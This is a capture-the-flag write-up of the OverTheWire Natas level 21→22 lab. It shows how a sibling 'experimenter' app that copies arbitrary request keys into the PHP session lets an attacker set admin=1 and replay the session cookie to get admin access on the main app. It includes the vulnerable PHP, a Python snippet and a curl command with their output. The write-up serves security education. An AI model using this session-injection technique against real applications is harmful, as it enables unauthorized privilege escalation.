








# Natas — Level 21 → 22

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-28

## Goal

Logged in as a regular user again, but with a hint about a second site:

    Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
    You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.

## Solution

The main app's source was short and gave no way in — it only ever reads the admin flag, never sets it:

    function print_credentials() {
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
            print "You are an admin. The credentials for the next level are: ";
            print "<pre>Username: natas22\n";
            print "Password: <censored></pre>";
        } else {
            print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
        }
    }

    session_start();
    print_credentials();

![Source of the main natas21 app — only checks $_SESSION["admin"], never sets it](images/natas-21-22-main-source.png)

The colocated site turned out to be a CSS playground:

Its source showed exactly why it was mentioned:

    session_start();
    // if update was submitted, store it
    if(array_key_exists("submit", $_REQUEST)) {
        foreach($_REQUEST as $key => $val) {
            $_SESSION[$key] = $val;
        }
    }

There's a comment right after suggesting a restriction exists:

    // only allow these keys
    $validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");

`$validkeys` is declared but never checked against — the `foreach` loop above it copies *any* request key into `$_SESSION`, `admin` included. Since both sites are "colocated" (sharing the same server-side session storage), poisoning a session through the experimenter app and then reusing that exact `PHPSESSID` against the main app should carry the injected key over. Scripted it: submit `admin=1` to the experimenter app, then replay the resulting session cookie against the main site:

    cookies = {"PHPSESSID": phpsessionid}
    r2 = requests.get(main_url, cookies=cookies, auth=(username, password))

Ran it:

    [+] Experimenter response: 200
    [+] PHPSESSID: kjitf60lkb5qfrji9btj8iqmdv
    [+] Main application response:
    <html>

And the main app returned the next level's credentials:

    You are an admin. The credentials for the next level are:
    Username: natas22
    Password: [REDACTED]

Double-checked the mechanism manually with curl and a cookie jar directly against the experimenter app:

    curl -u natas21:<password> -c n21cookies.txt -b n21cookies.txt \
      -d "submit=Update&admin=1" \
      "http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=1"

    [DEBUG] Session contents:
    Array
    (
        [debug] => 1
        [submit] => Update
        [admin] => 1
    )

## Result

    Username for natas22: natas22
    Password for natas22: [REDACTED]

## Key Takeaway

Two applications sharing the same session backend share the same trust boundary, whether or not they look related on the surface. The main app never had a bug of its own — the actual hole was a *sibling* app that copied arbitrary request keys into `$_SESSION` (a `$validkeys` allowlist existed in the code but was never wired into the logic that mattered). Any app that can write to a shared session store can set flags another app blindly trusts.
